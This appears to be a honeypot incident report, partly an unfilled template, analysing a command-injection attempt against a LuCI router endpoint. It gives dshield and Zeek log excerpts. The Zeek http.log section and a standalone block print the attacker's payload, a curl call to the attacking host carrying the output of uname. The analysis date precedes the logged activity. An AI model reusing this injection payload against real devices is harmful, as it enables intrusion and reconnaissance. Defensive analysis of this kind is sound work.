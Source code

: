 # Command Injection by IP 2.237.57.70

## Time and Date of Activity
* First activity logged: **2023-11-09T03:48:19.834213**
* Last activity logged: **2023-11-09T03:48:24.825757**

## Relevant Logs, File or Email 
* IP 2.237.57.70 conncected to the honeypot over **5** sessions making **3** HTTP requests per session.
* The destination port each time was 8080. 
* The source port was a different ephemeral port each time: 59202, 52980, 64540, 50066, 53382.


#### The 5 sessions can be seen in dshield.log and conn.log

**dshield.log** shows the following:
```
1699501699 BigDshield kernel:[50987.745307]  DSHIELDINPUT IN=eth0 OUT= MAC=06:a6:67:a1:06:97:06:47:24:e8:0b:15:08:00 SRC=2.237.57.70 DST=172.31.5.68 LEN=60 TOS=0x00 PREC=0x00 TTL=46 ID=55359 DF PROTO=TCP SPT=53382 DPT=8080 WINDOW=64240 RES=0x00 SYN URGP=0 
1699501701 BigDshield kernel:[50989.149093]  DSHIELDINPUT IN=eth0 OUT= MAC=06:a6:67:a1:06:97:06:47:24:e8:0b:15:08:00 SRC=2.237.57.70 DST=172.31.5.68 LEN=60 TOS=0x00 PREC=0x00 TTL=46 ID=353 DF PROTO=TCP SPT=59202 DPT=8080 WINDOW=64240 RES=0x00 SYN URGP=0 
1699501702 BigDshield kernel:[50990.343019]  DSHIELDINPUT IN=eth0 OUT= MAC=06:a6:67:a1:06:97:06:47:24:e8:0b:15:08:00 SRC=2.237.57.70 DST=172.31.5.68 LEN=60 TOS=0x00 PREC=0x00 TTL=46 ID=64244 DF PROTO=TCP SPT=52980 DPT=8080 WINDOW=64240 RES=0x00 SYN URGP=0 
1699501703 BigDshield kernel:[50991.539811]  DSHIELDINPUT IN=eth0 OUT= MAC=06:a6:67:a1:06:97:06:47:24:e8:0b:15:08:00 SRC=2.237.57.70 DST=172.31.5.68 LEN=60 TOS=0x00 PREC=0x00 TTL=46 ID=30835 DF PROTO=TCP SPT=64540 DPT=8080 WINDOW=64240 RES=0x00 SYN URGP=0 
1699501704 BigDshield kernel:[50992.733400]  DSHIELDINPUT IN=eth0 OUT= MAC=06:a6:67:a1:06:97:06:47:24:e8:0b:15:08:00 SRC=2.237.57.70 DST=172.31.5.68 LEN=60 TOS=0x00 PREC=0x00 TTL=46 ID=56344 DF PROTO=TCP SPT=50066 DPT=8080 WINDOW=64240 RES=0x00 SYN URGP=0 
```
**Zeek conn.log** shows the following:
```
#fields	ts	uid	id.orig_h	id.orig_p	id.resp_h	id.resp_p	proto	service	duration	orig_bytes	resp_bytes	conn_state	local_orig	local_resp	missed_bytes	history	orig_pkts	orig_ip_bytes	resp_pkts	resp_ip_bytes	tunnel_parents
#types	time	string	addr	port	addr	port	enum	string	interval	count	count	string	bool	bool	count	string	count	count	count	count	set[string]
1699501701.032478	Ck4N0V3ktsYTefptLi	2.237.57.70	59202	172.31.5.68	8080	tcp	http	0.202757	183	0	SF	F	T	0	ShADaFf	5	451	3	164	-
1699501702.226405	CJ3xmE3n2ttFoQNSq9	2.237.57.70	52980	172.31.5.68	8080	tcp	http	0.207294	183	0	SF	F	T	0	ShADFaf	5	451	3	164	-
1699501703.423175	C8Xolv1zqXbE5maT0j	2.237.57.70	64540	172.31.5.68	8080	tcp	http	0.206360	183	0	SF	F	T	0	ShADaFf	5	451	3	164	-
1699501704.616789	Cc3jU41mtCUXwzv309	2.237.57.70	50066	172.31.5.68	8080	tcp	http	0.209430	183	0	SF	F	T	0	ShADFaf	5	451	3	164	-
1699501699.628691	CvwvoH3MJsemJWUoab	2.237.57.70	53382	172.31.5.68	8080	tcp	http	0.598062	37	9384	SF	F	T	0	ShADadFfRR	10	505	7	9756	-
```

The 5 sets of 3 HTTP requests can be seen in webhoneypot-2023-11-09.log and Zeek http.log

Here is a sample of the 3 requests from **webhoneypot-2023-11-09.log**:
```
{"time":"2023-11-09T03:48:22.430959","headers":{"host":"54.67.87.80"},"sip":"2.237.57.70","dip":"54.67.87.80","method":"GET","url":"/","data":null,"useragent":"","version":"HTTP/1.1","response_id":{"comment":null,"headers":{"Server":"Apache/3.2.3","Access-Control-Allow-Origin":"*","content-type":"text/plain"},"status_code":200},"signature_id":{"max_score":72,"rules":[{"attribute":"method","condition":"equals","value":"GET","score":2,"required":false},{"attribute":"headers","condition":"absent","value":"user-agents","score":70,"required":false}]}}

{"time":"2023-11-09T03:48:22.432131","headers":{"host":"54.67.87.80"},"sip":"2.237.57.70","dip":"54.67.87.80","method":"GET","url":"/cgi-bin/luci/;stok=/locale","data":null,"useragent":"","version":"HTTP/1.1","response_id":{"comment":null,"headers":{"Server":"Apache/3.2.3","Access-Control-Allow-Origin":"*","content-type":"text/plain"},"status_code":200},"signature_id":{"max_score":72,"rules":[{"attribute":"method","condition":"equals","value":"GET","score":2,"required":false},{"attribute":"headers","condition":"absent","value":"user-agents","score":70,"required":false}]}}

{"time":"2023-11-09T03:48:22.433258","headers":{"host":"54.67.87.80"},"sip":"2.237.57.70","dip":"54.67.87.80","method":"GET","url":"/cgi-bin/luci/;stok=/locale","data":null,"useragent":"","version":"HTTP/1.1","response_id":{"comment":null,"headers":{"Server":"Apache/3.2.3","Access-Control-Allow-Origin":"*","content-type":"text/plain"},"status_code":200},"signature_id":{"max_score":72,"rules":[{"attribute":"method","condition":"equals","value":"GET","score":2,"required":false},{"attribute":"headers","condition":"absent","value":"user-agents","score":70,"required":false}]}}
```

### Notice how the command injection is not visible in the webhoneypot logs.  It is only visible in the Zeek http.log which shows the full URI.
Zeek http.log shows the following:
```
command: 
cat tests/logs/zeek/http.log | zeek-cut id.orig_h id.orig_p id.resp_h id.resp_p method host uri | grep "2.237.57.70"

id.orig_h id.orig_p id.resp_h id.resp_p method host uri
2.237.57.70     53382   172.31.5.68     8080    GET     54.67.87.80     /
2.237.57.70     59202   172.31.5.68     8080    GET     54.67.87.80     /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
2.237.57.70     52980   172.31.5.68     8080    GET     54.67.87.80     /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
2.237.57.70     64540   172.31.5.68     8080    GET     54.67.87.80     /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
2.237.57.70     50066   172.31.5.68     8080    GET     54.67.87.80     /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
```

#### Here we can clearly see the command injection in the URI.  The command is the following:
```
curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);
```

## Your custom script for parsing the logs.


## Flow of the activity

## Malware Analysis

## Which vulnerability does the attack attempt to exploit?
* Exploit
* CVE
* Mitre ATT&CK

## What is the goal of the attack?

## If the system is vulnerable, do you think the attack will be successful?

## How can a system be protected from this attack?

## What do you know about the attacker?
* References
* ThreatIntel
* Whois Information
* Shodan
* CyberGordon
* AlienVault
* ISC


## Indicator of Compromised
* IP List
* Hashes
* Domain
* URL
* Yara


#### Analyst Name: Guy Bruneau 
#### Date of Analysis: 19 March 2023 
